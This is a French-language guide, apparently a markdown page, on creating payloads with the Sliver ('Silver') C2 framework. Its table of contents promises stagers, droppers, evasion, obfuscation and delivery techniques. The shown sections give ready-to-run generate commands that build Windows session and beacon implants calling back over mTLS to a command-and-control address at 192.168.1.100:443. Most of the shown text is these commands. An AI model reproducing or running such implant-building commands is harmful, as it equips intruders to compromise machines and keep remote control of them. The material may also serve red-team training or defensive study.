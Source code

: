 # Guide Spécialisé : Création de Payloads avec Silver C2

## Table des Matières
1. [Types de Payloads Silver C2](#1-types-de-payloads-silver-c2)
2. [Génération de Payloads Basiques](#2-génération-de-payloads-basiques)
3. [Payloads Avancés et Personnalisés](#3-payloads-avancés-et-personnalisés)
4. [Stagers et Dropper](#4-stagers-et-dropper)
5. [Évasion et Obfuscation](#5-évasion-et-obfuscation)
6. [Formats et Plateformes](#6-formats-et-plateformes)
7. [Exemples Pratiques](#7-exemples-pratiques)
8. [Techniques de Livraison](#8-techniques-de-livraison)

---

## 1. Types de Payloads Silver C2

### 1.1 Sessions vs Beacons
```bash
# SESSION - Connexion immédiate et continue
generate --mtls 192.168.1.100:443 --os windows --arch amd64 --format exe --save /tmp/session.exe

# BEACON - Connexion périodique (plus furtif)
generate beacon --mtls 192.168.1.100:443 --os windows --arch amd64 --format exe --save /tmp/beacon.exe
```

### 1.2 Différences principales
- **Session** : Communication en temps réel, plus détectable
- **Beacon** : Communication par intervalles, plus discret, configurable

---

## 2. Génération de Payloads Basiques

### 2.1 Payload Windows Executables
```bash
# Payload Windows 64-bit basique
generate --mtls 192.168.1.100:443 \
    --os windows \
    --arch amd64 \
    --format exe \
    --save /tmp/windows_x64.exe

# Payload Windows 32-bit
generate --mtls 192.168.1.100:443 \
    --os windows \
    --arch 386 \
    --format exe \
    --save /tmp/windows_x86.exe
```
